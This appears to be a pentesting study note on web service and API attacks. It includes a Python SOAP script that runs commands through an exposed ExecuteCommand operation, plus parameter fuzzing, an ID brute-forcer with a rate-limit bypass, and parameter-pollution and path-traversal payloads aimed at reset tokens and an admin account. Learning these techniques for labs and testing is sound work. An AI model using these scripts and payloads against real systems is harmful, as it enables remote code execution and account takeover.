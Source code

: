 # Web Service & API Attacks

Web services enable applications to communicate with each other. An application programming interface (API) is a set of rules that enables data transmission between different software, they are not the same.

### <mark style="color:yellow;">Web Services Description Language (WSDL)</mark>

WSDL is an XML-based file exposed by web services that informs clients of the provided services/methods. WSDl files can be hid by developers to preve abuse but can be found by fuzzing.

Example url:&#x20;

```shell-session
curl http://<TARGET IP>:3002/wsdl?wsdl 
```

In the WSDL file look for&#x20;

```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

Which shows a cmd parameter.

```xml
      <s:element name="ExecuteCommandRequest">
        
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
          </s:sequence>
        </s:complexType>
        
      </s:element>
```

We can build a python script to send a xml request and RCE.&#x20;

```python
import requests
import sys
import re
from xml.etree import ElementTree

# Check if command argument is provided
if len(sys.argv) < 2:
    print("Usage: python script.py <command>")
    sys.exit(1)

cmd = sys.argv[1]

# Create the XML payload with the command inserted
payload = '''<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope
 xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xmlns:tns="http://tempuri.org/"
 xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
 <soap:Body>
 <LoginRequest xmlns="http://tempuri.org/">
 <cmd>''' + cmd + '''</cmd>
 </LoginRequest>
 </soap:Body>
</soap:Envelope>'''

response = requests.post(
    "http://10.129.206.216:3002/wsdl",
    data=payload,
    headers={"SOAPAction": '"ExecuteCommand"'}
)

# Extract just the result using regex (simpler than parsing XML with namespaces)
result_match = re.search(r'<result>(.*?)</result>', response.content.decode(), re.DOTALL)
if result_match:
    result = result_match.group(1)
    print(result)
else:
    print("Couldn't extract result from response")
```

## API attacks

Check for possible parameters

```bash
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```

Finding something `curl http://:3003/?id=1` . Retreive all id's with this script. If there is a rate limit then bypass it through headers like X-Forwarded-For or X-Forwarded-IP, etc.

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```

Check for possible endpoints like or in API documentation

<pre class="language-html"><code class="lang-html">GET /api/books HTTP/1.1
Host: example.com

<strong># Then finding
</strong>/api/books/mystery
</code></pre>

### <mark style="color:yellow;">server-side parameter pollution</mark>

To test for server-side parameter pollution in the query string, place query syntax characters like `#`, `&`, and `=` in your input and check responses. Use a URL-encoded `#` character to attempt to truncate the server-side request.

{% hint style="info" %}
Use URL encoded chars.
{% endhint %}

#### Truncate query strings with `%23foo`.

```
GET /userSearch?name=peter%23foo&back=/home
```

If you get invalid name the app may have treated foo as part of username.

```
GET /users/search?name=peter#foo&publicProfile=true
```

#### Injecting invalid parameters like `%26foo=xyz`.

```
GET /userSearch?name=peter%26foo=xyz&back=/home
```

This results in the following server-side request to the internal API:

```
GET /users/search?name=peter&foo=xyz&publicProfile=true
```

#### Injecting valid parameters

Override original parameter to check for server-side parameter pollution.

```
GET /userSearch?name=peter%26name=carlos&back=/home
```

#### Overriding existing parameters

To check wether application is vulnerable to server-side paremeter pollution override the original parameter by injecting a second parameter with the same name.

```
# Input
GET /userSearch?name=peter%26name=carlos&back=/home

# Send request
GET /users/search?name=peter&name=carlos&publicProfile=true
```

#### Things to try in short

```html
<!-- Try &x=y bur url encoded-->
username=administrator%26x=y

<!-- Truncate query string with encoded, this could give info back like field not specified suggesting there is a field parameter. # -->
username=administrator%23

<!-- Bruteforce and or change value of the field parameter-->
username=administrator%26field=email%23

<!-- In example a reset token paraemter in .js file was found-->
username=administrator%26field=reset_token%23

```

### <mark style="color:yellow;">server-side parameter pollution in REST paths</mark>

When there is a api for example using. `GET /api/private/users/peter` .

We can try path traversal to change the user from peter to admin. Use url encoding

```
# Payload
GET /edit_profile.php?name=peter%2f..%2fadmin

# Request
GET /api/private/users/peter/../admin
```

